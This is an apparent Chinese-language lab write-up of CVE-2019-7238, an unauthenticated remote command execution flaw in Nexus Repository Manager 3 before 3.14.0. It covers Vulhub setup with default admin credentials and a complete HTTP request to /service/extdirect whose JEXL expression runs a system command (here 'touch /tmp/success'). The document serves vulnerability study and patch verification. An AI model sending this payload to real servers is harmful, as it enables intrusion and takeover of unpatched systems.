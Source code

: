 # Nexus Repository Manager 3 extdirect 远程命令执行漏洞 CVE-2019-7238

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## 漏洞影响

```
Nexus < 3.14.0
```

## 网络测绘

```
app="Nexus-Repository-Manager"
```

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.14.0：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

使用账号密码`admin:admin123`登录后台，然后在maven-releases下随便上传一个jar包：

![image-20220226234636808](images/202202262346892.png)

触发该漏洞，必须保证仓库里至少有一个包存在。

## 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/success`命令：

```
POST /service/extdirect HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

![image-20220226234815987](images/202202262348240.png)

可见，`/tmp/success`已成功执行：

![image-20220226234852790](images/202202262348849.png)

原理是expression位置的JEXL表达式被执行，详情可阅读参考文档。
